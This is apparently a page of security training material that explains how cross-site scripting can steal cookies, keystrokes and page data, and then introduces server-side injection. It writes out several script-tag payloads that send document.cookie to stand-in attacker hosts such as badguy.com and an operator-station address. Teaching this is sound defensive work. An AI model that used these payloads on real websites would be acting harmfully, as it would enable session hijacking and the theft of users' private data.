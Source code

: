 - **Capturing Cookies** : the `document.cookie` object contains a string of all the cookies for the
    currently loaded webpage. If an attacker can exfiltrate this object to a remote server, he or she
    may be able to masquerade as the victim.
- **Capturing Keystrokes** : javascript allows for binding to keydown and keyup actions in order to
    log every keystroke that is pressed.
- **Capturing sensitive data** : Essentially anything on the page itself can be captured, such as
    credit card information, passwords, or other private information. An attacker can access the
    entire HTML source of the page in its current state with `document.body.innerHTML`.

Once an attacker has valuable information, he or she has to then exfiltrate the data to some
external website or listener so it can be recovered. There are many ways to do this. A simple way
might be simply to redirect the user using something such as
<script>document.location="http://badguy.com/?" + document.cookie;</script>. Other techniques
could be to add an image to the webpage that exfiltrates the data in the URL of the image request or
adding an iframe to do the same. AJAX may also be useful as an exfil mechanism, but most modern
browsers have protection against this via CORS protection. Additionally, in 2012, Content Security
Policy was introduced to protect against XSS and other forms of client injection. While CSP is widely
adopted across modern browsers, it is up to the web developer to properly implement safe policies.

Some examples of redirecting with Javascript components:

```
NOTE The following examples essentially do the same thing
```
```
<script>document.location="http://OP-Station-IP:OPS-PORT/?username=" +
document.cookie;</script>
<script>window.location.href="http://website/?"+document.cookie;</script>
```

```
<script>write.location.href="http://10.50.20.97"</script>
```
_Resources:_

- https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
- https://en.wikipedia.org/wiki/Content_Security_Policy


**Server-Side Injection (URL, Upload)**

**OUTCOME** : This section of facilitation introduces the students to the concepts required for skills
skill11 and skill12. Students will be able to identify and leverage unsanitized input that is handled
in server land as it pertains to URLs, command execution, and file uploads.

**Techniques For Server-Side Injection**

- While XSS is an injection technique that targets the client browser of a visitor for execution,
    there are other techniques that target components of the server. In all instances of these latter
    techniques, the server receives input from the user and executes it in the server-side before
    returning HTML to the user. If that input is not properly sanitized, it can be used to trigger
    unintended consequences. Some common examples of server-side injections include directory
    traversal, command injection, malicious file upload, and SQL injections (SQLI). In this section,
    we will cover the first three.
